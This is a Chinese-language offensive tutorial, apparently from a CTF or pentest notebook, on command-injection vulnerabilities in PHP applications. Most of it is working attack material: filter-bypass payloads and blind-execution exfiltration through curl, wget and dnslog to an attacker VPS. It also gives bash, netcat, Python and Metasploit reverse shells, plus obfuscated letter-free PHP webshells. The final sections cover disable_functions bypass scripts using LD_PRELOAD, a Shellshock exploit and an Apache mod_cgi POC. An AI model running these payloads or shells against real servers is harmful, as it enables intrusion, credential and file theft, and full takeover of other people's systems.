# 命令执行漏洞

## 命令执行漏洞简介

​	 命令执行漏洞是指应用有时需要调用一些执行系统命令的函数，如：system()、exec()、shell_exec()、eval()、passthru()，代码未对用户可控参数做过滤，当用户能控制这些函数中的参数时，就可以将恶意系统命令拼接到正常命令中，从而造成命令执行攻击。


## 命令执行漏洞利用条件

- 应用调用执行系统命令的函数；
- 将用户输入作为系统命令的参数拼接到了命令行中；
- 没有对用户输入过滤或过滤不严。


## 命令执行漏洞函数

* system()    #输出并返回最后一行shell结果。
* exec()      #不输出结果，返回最后一行shell结果，所有结果保存到一个返回数组里。
* passthru()  #只调用命令，把命令的运行结果原样地直接输出到标准输出设备上。
* popen()、proc_open() #不会直接返回执行结果，而是返回一个文件指针
* shell_exec()#通过shell执行命令并以字符串的形式返回完整的输出
* ``反引号       #实际上是使用shell_exec()函数


## 常见命令分隔符、终止符和截断符号

### 命令分隔符

```php
windows： 
&&　　当前面命令为成功才执行后面的命令
||　　前面命令执行失败的时候才执行后面的命令
&　 	 前面命令执行后接着执行后面的命令
|　	 前面命令输出结果作为后面命令的输入内容

linux：　  
&&　　当前面命令为成功才执行后面的命令
||　　前面命令执行失败的时候才执行后面的命令
&　 	 前面命令执行后接着执行后面的命令
|　	 前面命令输出结果作为后面命令的输入内容
;	  无论前面命令真或假都执行后面的命令，适用于执行多条命令
```


### 命令终止符

```php
#以下终止符只适用于PHP环境
%0a 换行符
%0d 回车符
```


### 截断符号

```php
$
;
|
&
-
(
)
{
}
反引号
||
&&
%0a #有时可当空格使用
```


## 命令执行漏洞过滤绕过

### 绕过空格过滤

```php
< 、<>、%09(tab键)、%20、$IFS$9、$IFS$1、${IFS}、$IFS等，还可以用{} 比如 {cat,flag}
```


### 关键字黑名单绕过

#### 拼接绕过黑名单

```php
a=l;b=s;$a$b
a=fl;b=ag;cat $a$b
```


#### **单引号，双引号绕过**

```php
c""at /etc/passw""d
ca''t /etc/passw''d
```


#### **反斜杠绕过**

```php
cat /fla\g
```


#### **编码绕过**

```php
$(printf "\154\163") ==>ls
$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67") ==>cat /flag
{printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|\$0 ==>cat /flag
```


#### **利用shell特殊变量绕过**

```php
l$@s
l$*s
l$1s
```


#### 利用base64编码绕过

```php
echo 'cat /flag' |base64
echo 'Y2F0IC9mbGFnCg==' | base64 -d |bash
```


#### **Hex编码绕过**

```php
echo "636174202f666c6167"|xxd -r -p|bash     将执行cat /flag
$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67")         执行cat /flag
{printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|$0       执行cat /flag
```


#### **通配符绕过**

```php
假设flag在/flag中:
/?url=127.0.0.1|ca""t%09/fla?
/?url=127.0.0.1|ca""t%09/fla*
    
假设flag在/flag.txt中:
/?url=127.0.0.1|ca""t%09/fla????
/?url=127.0.0.1|ca""t%09/fla*
    
假设flag在/flags/flag.txt中:
/?url=127.0.0.1|ca""t%09/fla??/fla????
/?url=127.0.0.1|ca""t%09/fla*/fla*

payload1: /???/?[a][t] '?''?''?''?'
payload2: /???/?at flag
payload3: /???/?at ????
payload4: /???/?[a]''[t] ?''?''?''?''
```


#### **[]匹配绕过**

```php
c[a]t  =>  cat
mo[r]e  =>  more  
in[d]ex  =>  index
p[h]p  =>  php
```


#### **利用系统内置变量**

#### **配合通配符构造命令**

PATH 命令的搜寻路径。即环境变量。无添加的情况下默认是n结尾。

```php
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin 
`echo $PATH| cut -c 8,9`t /etc/passwd
```


### 长度限制绕过

1、inux中的>符号和>>符号

- 通过>来创建文件: `>test.txt`

- 通过>将命令结果存入文件中: `echo "hello world">test.txt`，使用>命令会将原有文件内容覆盖，如果文件不存在则会新建。

- 使用>>符号，是将字符串添加到文件内容末尾，而不会覆盖原内容。

  

2、Linux中的命令换行
在linux中，可以通过在没有写完的命令后面加 `\`，可以将一条命令写在多行，如下

```php
ca\
t\
fl\
ag
```

于是乎，我们可以利用`>>`符号和命令换行的机制，将自己的命令分多行写入一个文本中，然后通过sh命令来读取并执行文本中的命令，如下：

```php
echo "ca\\">cmd
echo "t\\">>cmd
echo " fl\\">>cmd
echo "ag">>cmd
sh cmd
```

以上命令相当于执行了一条 `cat flag` 命令，用这种方法可以绕过一些长度限制来读取文件内容。


3、文件构造绕过
即利用 ls -t 和 > 以及换行符 \ 来绕过长度限制执行命令
`ls -t`: 在linux中，使用 ls -t 可以将文件名按时间顺序排列出来(后创建的排前面)
于是可以通过下列方式构造`cat flag`命令：

```php
`> "ag"`
`> "fl\\"`
`> "t \\"`
`> "ca\\"`
`ls -t > test
`sh test`
```

以上命令即成功构造并执行了带有命令`cat flag`的test文件


## 命令执行无回显

命令执行可能会存在命令执行但没有回显，所以首先要判断命令是否有执行。确定命令可以执行，然后就可以进行无回显命令执行的利用了。

### 判断方法

#### **1、利用延时**

```
cmd= |sleep 5  #
```

如果执行后延时5秒，就证明测试点存在命令执行漏洞


#### 2、http请求

**（1）在VPS上用python3开启一个简易版的http服务器**

```
python3 -m http.server 8000
```

**（2）向目标服务器发起http请求，执行curl命令**

```
cmd=|curl vpsip:8000
```

如果向目标服务器发起http请求后，公网服务器监听端口得到一些信息，就证明测试点存在命令执行漏洞。


#### 3、DNS请求

```
如果请求的目标不是ip地址而是域名，那么域名最终还要转化成ip地址，就肯定要做一次域名解析请求。那么假设我有个可控的二级域名，那么它发出三级域名解析的时候，我这边是能够拿到它的域名解析请求的，这就相当于可以配合DNS请求进行命令执行的判断，这一般就被称为dnslog。（要通过dns请求即可通过ping命令，也能通过curl命令，只要对域名进行访问，让域名服务器进行域名解析就可实现）
```

**（1）到dnslog站点上申请一个临时域名**


（2）简单测试一下向目标服务器发起http请求，执行下面的命令

```
cmd=|curl u8kq1v.dnslog.cn/`whoami`
```

查看dnslog，如果得到执行结果(如上面执行`whoami`命令，得到`www-data`)，就说明测试点存在命令执行。


### 利用方法

#### 1、直接执行系统命令

* 利用条件：需要站点目录具有写权限

（1）使用>或>>

```php
cat /etc/passwd > passwd.txt
cat /etc/passwd >> passwd.txt
```


（2）使用cp命令

```php
cp /etc/passwd passwd.txt
```


（3）使用mv命令

```php
mv /flag flag.txt
```


（4）tar打包或tar打包并压缩

```php
tar cvf passwd.tar /etc/passwd
tar zcvf passwd.tar.gz /etc/passwd
```

下载后解压得到passwd文件


**（5）zip压缩**

```php
zip passwd.zip /etc/passwd
```


#### 2、写webshell(直接写入或外部下载webshell)

* 利用条件：需要站点目录具有写权限

**（1）写webshell**

```php
echo 3c3f706870206576616c28245f504f53545b3132335d293b203f3e|xxd -r -ps > webshell.php
echo "<?php @eval(\$_POST[cmd]); ?>" > webshell.php
```


**（2）外部下载shell**

* 利用条件：目标服务器可以连接外网或可以与攻击机互通，且能执行wget命令

```php
wget 网址 -O webshell.php #使用wget下载shell，使用参数-O来指定一个文件名
```


#### 3、在vps上建立记录脚本

* 利用条件：需要目标服务器可以向公网服务器发起http请求，并且能执行curl命令或wget命令

**（1）构造记录脚本**
在自己的公网服务器站点根目录写入php文件，内容如下：
`record.php`

```php
<?php
$data =$_GET['data'];
$f = fopen("flag.txt", "w");
fwrite($f,$data);
fclose($f);
?>
```

**(2).构造请求**
在目标服务器的测试点可以发送下面其中任意一条请求进行测试

```php
curl http://*.*.*.**/record.php?data=`cat flag.php|base64`
wget http://*.*.*.*/record.php?data=`cat flag.php|base64`
```

最终得到

Base64解码即可得到flag。


#### 4、通过dnslog带出数据

注意事项：

* 命令执行时要避免空格，空格会导致空格后面的命令执行不到；
* 将读取的文件命令用反引号``包含起来；
* 拼接的域名有长度限制。

利用命令：

```php
curl `命令`.域名
```

**（1）到dnslog官网上申请一个临时域名**


**（2）执行whoami命令**

```php
curl `whoami`.5i03vw.dnslog.cn
```


**（3）成功将命令执行结果带出来了**


#### 5、反弹shell

* 利用条件：目标服务器可以向可通信的公网服务器发起http请求

```php
#1.首先在公网服务器使用nc命令监听端口
nc -lvp 4444 #或nc -vv -lp 4444

#2.然后在公网服务器上写一个文件(我写入到test文件)，内容是下面命令
bash -i >& /dev/tcp/VPSIP/4444 0>&1

#3.最终浏览器上执行的payload(实际上就是在目标机执行curl VPSIP/test |bash)
cmd=|curl VPSIP/test |bash

第二种方法是将test文件中的内容进行base64编码，然后浏览器上执行payload：cmd=|curl VPSIP/test |base64 |bash)
```


#### 6、使用nc反弹Shell

* 利用条件：要求目标服务器也有nc工具

```php
#1.公网服务器监听4444端口
nc -tlp 4444

#2.目标服务器执行如下命令
cmd=|nc -t 公网服务器IP 4444 < flag.php


-u参数调整为udp,当tcp不能使用的时候使用
#1.公网服务器监听4444端口
nc -ulp 4444
#2.目标服务器执行如下命令
cmd=|nc -u 公网服务器IP 4444 < flag.php
```


#### 7、msf反向回连

* 利用条件：目标服务器可以向可通信的公网服务器发起http请求

**1.公网服务器用msf监听：**

```php
use exploit/multi/handler
set payload linux/armle/shell/reverse_tcp
set lport 4444
set lhost xxx.xxx.xxx.xxx
set exitonsession false
exploit -j
```

**2.目标服务器执行下面命令**

```php
cmd=|bash -i >& /dev/tcp/xxxxx(vps公网ip)/4444 0>&1
#如果上面这条命令在浏览器上执行失败。那么要将上面这条命令写入公网服务器上的一个文件中，在msf开始监听后，在测试点执行下面命令
cmd=|curl x.x.x.165:8002/qwzf|bash
```

**3.公网服务器接收shell**
目标服务器上执行命令后，会在公网服务器上接收到，然后在公网服务器上执行以下命令getshell

```php
sessions -i 1
shell
```


## 无字母数字Shell

### PHP中异或(^)概念

测试代码

```php
<?php
    echo "A"^"?";
?>
```

代码对字符`A`和`?`进行了异或操作.PHP中异或时会将字符转化ASCII值在转成二进制,再进行异或.异或完反过来转化成字符

- `A`的ASCII值为`65`,二进制则是`01000001`
- `?`的ASCII转值为`65`,二进制是`00111111`

异或二进制结果结果为`10000000`,对应的字符就是`~`.
非数字字母的PHP后门：

```php
<?php
    $__=("#"^"|"); // $__ = _
    $__.=("."^"~"); // _P 
    $__.=("/"^"`"); // _PO
    $__.=("|"^"/"); // _POS
    $__.=("{"^"/"); // _POST 
//.=是字符的连接
$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/"); //上面代码为一句
?>
```


### PHP取反(~)概念

利用的是UTF-8编码的某个汉字，并将其中某个字符取出来，
比如:和的utf-8编码为\xe5\x92\x8c,第三个字节和{2}的值为\x8c，其取反值为-141,负数用十六进制表示，通常用的是补码的方式表示。负数的补码是它本身的值每位求反,最后再加一。141 的 16 进制为 0xff73，php 中 chr(0xff73)==115，115 就是 s 的 ASCII 值。因此

```php
<?php
highlight_file(__FILE__);
$_="和";
echo (~($_{2}));
echo (~"\x8c"); //等同与上一句
?>
```


### 不用数字构造数字

##### 1、利用PHP弱类型特效,true的值为1,则true+true=2

```php
$_=('>'>'<')+('>'>'<')
print($_)
```


##### 2、利用PHP未定义变量默认值为null,null=false=0,所以利用自增操作得到数字

```php
<?php
$_++;
print($_);
?>
```


### 用字符串自增,获取字符

php文档(http://php.net/manual/zh/language.operators.increment.php)
在处理字符变量的算数运算时，PHP 沿袭了 Perl 的习惯，而非 C 的。例如，在 Perl 中 $a = ‘Z’; $a++; 将把 $a 变成’AA’，而在 C 中，a = ‘Z’; a++; 将把 a 变成 ‘[’（‘Z’ 的 ASCII 值是 90，’[’ 的 ASCII 值是 91）。注意字符变量只能递增，不能递减，并且只支持纯字母（a-z 和 A-Z）。递增／递减其他字符变量则无效，原字符串没有变化。

也就是说，`'a'++ => 'b'`，`'b'++ => 'c'`… 所以，我们只要拿到一个变量值为`a`，通过自增操作即可获得a-z中所有字符。

在PHP中如果强制连接数组和字符串的话，数组将被转换成字符串，其值为`Array`,再取这个字符串的第一个字母，就可以获得`A`了。

```php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
```


### webshell

#### php5和7的差异。

* php5中assert是一个函数，我们可以通过`$f='assert';$f(...);`这样的方法来动态执行任意代码。

- 但php7中，assert不再是函数，变成了一个语言结构（类似eval），不能再作为函数名动态执行代码，所以利用起来稍微复杂一点。但也无需过于担心，比如我们利用file_put_contents函数，同样可以用来getshell。

  

#### 不用数字和字母的 shell

核心思路:将非字母、数字的字符经过各种变换，最后能构造出a-z中任意一个字符。然后再利用PHP允许动态函数执行的特点，拼接处一个函数名，如assert，然后动态执行之即可。


#### 非字母、数字的字符异或出字母

* 不可打印字符，用 url 编码表示

```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```

可用更短的字符

```php
"`{{{"^"?<>/"//_GET
```


#### 非字母、数字的字符取反出字母

```php
<?php
$__=('>'>'<')+('>'>'<');//$__2
$_=$__/$__;//$_1

$____='';
$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});//$____=assert

$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});//$_____=_POST

$_=$$_____;//$_=$_POST
$____($_[$__]);//assert($_POST[2])
```

简短写法,相当于直接把 utf8 编码的某个字节提取出来统一进行取反。

```php
${~"\xa0\xb8\xba\xab"} //$_GET
```


#### php 递增／递减运算符

* 因为 PHP 函数是大小写不敏感的，最终执行的是 ASSERT($POST[])，无需获取小写 a。

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```


## 命令执行disable_function绕过

```php
在渗透过程中，有很多 PHP 站点往往设置了disable_functions 来禁止用户调用某些危险函数，导致连接上shell后无法执行系统命令，下面介绍disable_function绕过方法
```

#### 一、 黑名单 bypass

```php
  即便是通过disable functions限制危险函数，也可能会有限制不全的情况。如果运维人员安全意识不强或对PHP不甚了解的话，则很有可能忽略某些危险函数，常见的有以下几种。
```

**exec()**

```php
<?php
echo exec('whoami');
?>
```

**shell_exec()**

```php
<?php
echo shell_exec('whoami');
?>
```

**system()**

```php
<?php
system('whoami');
?>
```

**passthru()**

```php
<?php
passthru("whoami");
?>
```

**popen()**

```php
<?php
$command=$_POST['cmd'];
$handle = popen($command,"r");
while(!feof($handle)){        
    echo fread($handle, 1024);  //fread($handle, 1024);
}  
pclose($handle);
?>
```

**proc_open()**

```php
<?php
$command="ipconfig";
$descriptorspec = array(1 => array("pipe", "w"));
$handle = proc_open($command ,$descriptorspec , $pipes);
while(!feof($pipes[1])){     
    echo fread($pipes[1], 1024); //fgets($pipes[1],1024);
}
?>
```


#### 二、利用 pcntl_exec

使用条件：

* PHP安装并启用了pcntl插件

pcntl是linux下的一个扩展，可以支持php的多线程操作。很多时候会碰到禁用exec函数的情况，但如果运维人员安全意识不强或对PHP不甚了解，则很有可能忽略pcntl扩展的相关函数。

pcntl_exec()是pcntl插件专有的命令执行函数来执行系统命令函数，可以在当前进程空间执行指定的程序。

利用pcntl_exec()执行test.sh：

```php
<?php
if(function_exists('pcntl_exec')) {
   pcntl_exec("/bin/bash", array("/tmp/test.sh"));
} else {
       echo 'pcntl extension is not support!';
}
?>
```

由于pcntl_exec()函数执行命令无回显，需要配合上面的命令执行无回显知识点或用python反弹shell

```php
<?php pcntl_exec("/usr/bin/python",array('-c','import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM,socket.SOL_TCP);s.connect(("111.111.111.111",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'));
```


#### 三、利用 LD_PRELOAD 环境变量

使用条件：

- Linux 操作系统
- `putenv`
- `mail` or `error_log` 本例中禁用了 `mail` 但未禁用 `error_log`
- 存在可写的目录, 需要上传 `.so` 文件

原理简述：

LD_PRELOAD是Linux系统的一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的攻击目的。

我们通过环境变量 LD_PRELOAD 劫持系统函数，可以达到不调用 PHP 的各种命令执行函数（system()、exec() 等等）仍可执行系统命令的目的。

想要利用LD_PRELOAD环境变量绕过disable_functions需要注意以下几点：

* 能够上传自己的.so文件
* 能够控制LD_PRELOAD环境变量的值，比如putenv()函数
* 因为新进程启动将加载LD_PRELOAD中的.so文件，所以要存在可以控制PHP启动外部程序的函数并能执行，比如mail()、imap_mail()、mb_send_mail()和error_log()函数等

一般而言，利用漏洞控制 web 启动新进程 a.bin（即便进程名无法让我随意指定），新进程 a.bin 内部调用系统函数 b()，b() 位于 系统共享对象 c.so 中，所以系统为该进程加载共享对象 c.so，想办法在加载 c.so 前优先加载可控的 c_evil.so，c_evil.so 内含与 b() 同名的恶意函数，由于 c_evil.so 优先级较高，所以，a.bin 将调用到 c_evil.so 内的b() 而非系统的 c.so 内 b()，同时，c_evil.so 可控，达到执行恶意代码的目的。基于这一思路，常见突破 disable_functions 限制执行操作系统命令的方式为：

* 编写一个原型为 uid_t getuid(void); 的 C 函数，内部执行攻击者指定的代码，并编译成共享对象 getuid_shadow.so；
* 运行 PHP 函数 putenv()（用来配置系统环境变量），设定环境变量 LD_PRELOAD 为 getuid_shadow.so，以便后续启动新进程时优先加载该共享对象；
* 运行 PHP 的 mail() 函数，mail() 内部启动新进程 /usr/sbin/sendmail，由于上一步 LD_PRELOAD 的作用，sendmail 调用的系统函数 getuid() 被优先级更好的 getuid_shadow.so 中的同名 getuid() 所劫持；
* 达到不调用 PHP 的 各种 命令执行函数（system()、exec() 等等）仍可执行系统命令的目的。

之所以劫持 getuid()，是因为 sendmail 程序会调用该函数（当然也可以为其他被调用的系统函数），在真实环境中，存在两方面问题：

* 一是，某些环境中，web 禁止启用 sendmail、甚至系统上根本未安装 sendmail，也就谈不上劫持 getuid()，通常的 www-data 权限又不可能去更改 php.ini 配置、去安装 sendmail 软件；
* 二是，即便目标可以启用 sendmail，由于未将主机名（hostname 输出）添加进 hosts 中，导致每次运行 sendmail 都要耗时半分钟等待域名解析超时返回，www-data 也无法将主机名加入 hosts（如，127.0.0.1 lamp、lamp.、lamp.com）。

**利用方法** ：

源码

```php
<title>Check_In</title>
<?php 
highlight_file(__FILE__);
class ClassName
{
        public $code = null;
        public $decode = null;
        function __construct()
        {
                $this->code = @$this->x()['Ginkgo'];
                $this->decode = @base64_decode( $this->code );
                @Eval($this->decode);
        }

        public function x()
        {
                return $_REQUEST;
        }
}
new ClassName();
```

构造如下拿到shell：

```php
/?Ginkgo=ZXZhbCgkX1BPU1Rbd2hvYW1pXSk7
# 即eval($_POST[cmd]); 
```

蚁剑执行命令失败


猜测是disable_functions禁用了执行命令的函数，查看phpinfo信息，发现disable_functions禁用了大部分命令执行的函数了


下面去Github上下载利用 LD_PRELOAD 环境变量绕过的项目：

https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD

该项目中有三个比较关键的文件

```php
bypass_disablefunc.php：一个用来执行命令的 webshell。
bypass_disablefunc_x64.so或bypass_disablefunc_x86.so：执行命令的共享对象文件，分为64位的和32位的。
```


将bypass_disablefunc.php上传到web目录的直接访问，无权限的话可以传到tmp目录后用include等函数来包含，并且需要用 GET 方法提供三个参数：

* cmd 参数：待执行的系统命令，如 id 命令。
* outpath 参数：保存命令执行输出结果的文件路径（如 /tmp/xx），便于在页面上显示，另外该参数，你应注意 web 是否有读写权限、web 是否可跨目录访问、文件将被覆盖和删除等几点。
* sopath 参数：指定劫持系统函数的共享对象的绝对路径（如 /var/www/bypass_disablefunc_x64.so），另外关于该参数，你应注意 web 是否可跨目录访问到它。

然后再将bypass_disablefunc_x64.so和bypass_disablefunc.php上传到可写目录中，一般可以放到系统的/tmp目录中


然后打开bypass_disablefunc.php并使用GET方法提供所需的三个参数：

```php
http://localhost:8090/?Ginkgo=aW5jbHVkZSgiL3RtcC9ieXBhc3NfZGlzYWJsZWZ1bmMucGhwIik7Cg==
&cmd=id&outpath=/tmp/outfile123&sopath=/tmp/bypass_disablefunc_x64.so

aW5jbHVkZSgiL3RtcC9ieXBhc3NfZGlzYWJsZWZ1bmMucGhwIik7Cg== base64解码为include("/tmp/bypass_disablefunc.php");
```


在蚁剑中有该绕过disable_functions的插件：


我们选择`LD_PRELOAD`模式并点击开始按钮，成功后蚁剑会在`/var/www/html`目录里上传一个`.antproxy.php`文件。我们创建副本, 并将连接的 URL shell 脚本名字改为`.antproxy.php`获得一个新的shell，在这个新shell里面就可以成功执行命令了。


#### 四、利用 ShellShock（CVE-2014-6271）

**使用条件：**

- **Linux 操作系统**
- **`putenv`**
- **`mail` or `error_log` 本例中禁用了 `mail` 但未禁用 `error_log`**
- **`/bin/bash` 存在 `CVE-2014-6271` 漏洞**
- **`/bin/sh -> /bin/bash` sh 默认的 shell 是 bash**

**原理简述：**

该方法利用的bash中的一个老漏洞，即Bash Shellshock 破壳漏洞（CVE-2014-6271）。

该漏洞的原因是Bash使用的环境变量是通过函数名称来调用的，导致该漏洞出现是以`(){`开头定义的环境变量在命令 ENV 中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。而其核心的原因在于在输入的过滤中没有严格限制边界，也没有做出合法化的参数判断。

一般函数体内的代码不会被执行，但破壳漏洞会错误的将"{}"花括号外的命令进行执行。PHP里的某些函数（例如：mail()、imap_mail()）能调用popen或其他能够派生bash子进程的函数，可以通过这些函数来触发破壳漏洞(CVE-2014-6271)执行命令。

**利用方法：**

源码

```php
<?php
@eval($_REQUEST['ant']);
show_source(__FILE__);
?>
```

查看phpinfo发现设置了disable_functions：


连接上中国蚁剑


AntSword 虚拟终端中已经集成了对 ShellShock 的利用, 直接在虚拟终端执行命令即可


也可以选择手动利用。在有权限的目录中（/tmp/shell.php）上传以下利用脚本：

```php
<?php 
# Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions) 
# Google Dork: none 
# Date: 10/31/2014 
# Exploit Author: Ryan King (Starfall) 
# Vendor Homepage: http://php.net 
# Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror 
# Version: 5.* (tested on 5.6.2) 
# Tested on: Debian 7 and CentOS 5 and 6 
# CVE: CVE-2014-6271 

function shellshock($cmd) { // Execute a command via CVE-2014-6271 @mail.c:283 
   $tmp = tempnam(".","data"); 
   putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1"); 
   // In Safe Mode, the user may only alter environment variableswhose names 
   // begin with the prefixes supplied by this directive. 
   // By default, users will only be able to set environment variablesthat 
   // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive isempty, 
   // PHP will let the user modify ANY environment variable! 
   //mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actuallysend any mail 
   error_log('a',1);
   $output = @file_get_contents($tmp); 
   @unlink($tmp); 
   if($output != "") return $output; 
   else return "No output, or not vuln."; 
} 
echo shellshock($_REQUEST["cmd"]); 
?>

```


然后包含该脚本并传参执行命令即可：

```php
http://localhost:18081/?ant=include("/tmp/shell.php");&cmd=whoami
```


#### 五、利用 Apache Mod CGI

使用条件：

- Linux 操作系统
- Apache + PHP (apache 使用 apache_mod_php)
- Apache 开启了 `cgi`, `rewrite`
- Web 目录给了 `AllowOverride` 权限
- 当前目录可写

原理简述：

早期的Web服务器，只能响应浏览器发来的HTTP静态资源的请求，并将存储在服务器中的静态资源返回给浏览器。随着Web技术的发展，逐渐出现了动态技术，但是Web服务器并不能够直接运行动态脚本，为了解决Web服务器与外部应用程序（CGI程序）之间数据互通，于是出现了CGI（Common Gateway Interface）通用网关接口。简单理解，可以认为CGI是Web服务器和运行在其上的应用程序进行“交流”的一种约定。

当遇到动态脚本请求时，Web服务器主进程就会Fork创建出一个新的进程来启动CGI程序，运行外部C程序或Perl、PHP脚本等，也就是将动态脚本交给CGI程序来处理。启动CGI程序需要一个过程，如读取配置文件、加载扩展等。当CGI程序启动后会去解析动态脚本，然后将结果返回给Web服务器，最后由Web服务器将结果返回给客户端，之前Fork出来的进程也随之关闭。这样，每次用户请求动态脚本，Web服务器都要重新Fork创建一个新进程去启动CGI程序，由CGI程序来处理动态脚本，处理完成后进程随之关闭，其效率是非常低下的。

而对于Mod CGI，Web服务器可以内置Perl解释器或PHP解释器。 也就是说将这些解释器做成模块的方式，Web服务器会在启动的时候就启动这些解释器。 当有新的动态请求进来时，Web服务器就是自己解析这些动态脚本，省得重新Fork一个进程，效率提高了。

任何具有MIME类型application/x-httpd-cgi或者被cgi-script处理器处理的文件都将被作为CGI脚本对待并由服务器运行，它的输出将被返回给客户端。可以通过两种途径使文件成为CGI脚本，一种是文件具有已由AddType指令定义的扩展名，另一种是文件位于ScriptAlias目录中。

Apache在配置开启CGI后可以用ScriptAlias指令指定一个目录，指定的目录下面便可以存放可执行的CGI程序。若是想临时允许一个目录可以执行CGI程序并且使得服务器将自定义的后缀解析为CGI程序执行，则可以在目的目录下使用htaccess文件进行配置，如下：

```php
Options +ExecCGI
AddHandler cgi-script .xxx
```

这样便会将当前目录下的所有的.xxx文件当做CGI程序执行了。

由于CGI程序可以执行命令，那我们可以利用CGI来执行系统命令绕过disable_functions。

**利用方法：**

源码

```php
<?php
@eval($_REQUEST['ant']);
show_source(__FILE__);
?>
```

执行phpinfo发现设置了disable_functions：


并且发现目标主机Apache开启了CGI，Web目录下有写入的权限。

我们首先在当前目录创建 .htaccess 文件，写入如下：

```php
Options +ExecCGI
AddHandler cgi-script .ant
```

然后新建 shell.ant 文件，写入要执行的命令：

```php
#!/bin/sh
echo Content-type: text/html
echo ""
echo&&id
```


用php的chmod()函数给shell.ant文件添加可执行权限

```php
?ant=chmod('shell.ant',0777);
```


添加完可执行权限后访问shell.ant文件便可成功执行命令：


给出一个POC脚本：

```php
<?php
$cmd = "ls /"; //command to be executed
$shellfile = "#!/bin/bashn"; //using a shellscript
$shellfile .= "echo -ne "Content-Type: text/html\n\n"n"; //header is needed, otherwise a 500 error is thrown when there is output
$shellfile .= "$cmd"; //executing $cmd
function checkEnabled($text,$condition,$yes,$no) //this surely can be shorter
{
    echo "$text: " . ($condition ? $yes : $no) . "<br>n";
}
if (!isset($_GET['checked']))
{
    @file_put_contents('.htaccess', "nSetEnv HTACCESS on", FILE_APPEND); //Append it to a .htaccess file to see whether .htaccess is allowed
    header('Location: ' . $_SERVER['PHP_SELF'] . '?checked=true'); //execute the script again to see if the htaccess test worked
}
else
{
    $modcgi = in_array('mod_cgi', apache_get_modules()); // mod_cgi enabled?
    $writable = is_writable('.'); //current dir writable?
    $htaccess = !empty($_SERVER['HTACCESS']); //htaccess enabled?
        checkEnabled("Mod-Cgi enabled",$modcgi,"Yes","No");
        checkEnabled("Is writable",$writable,"Yes","No");
        checkEnabled("htaccess working",$htaccess,"Yes","No");
    if(!($modcgi && $writable && $htaccess))
    {
        echo "Error. All of the above must be true for the script to work!"; //abort if not
    }
    else
    {
        checkEnabled("Backing up .htaccess",copy(".htaccess",".htaccess.bak"),"Suceeded! Saved in .htaccess.bak","Failed!"); //make a backup, cause you never know.
        checkEnabled("Write .htaccess file",file_put_contents('.htaccess',"Options +ExecCGInAddHandler cgi-script .dizzle"),"Succeeded!","Failed!"); //.dizzle is a nice extension
        checkEnabled("Write shell file",file_put_contents('shell.dizzle',$shellfile),"Succeeded!","Failed!"); //write the file
        checkEnabled("Chmod 777",chmod("shell.dizzle",0777),"Succeeded!","Failed!"); //rwx
        echo "Executing the script now. Check your listener "; //call the script
    }
}
?>
```

蚁剑上也有绕过disable_functions的插件


#### 六、攻击 PHP-FPM 监听端口

**利用条件：**

- Linux 操作系统
- PHP-FPM
- 存在可写的目录, 需要上传 `.so` 文件

原理简述：

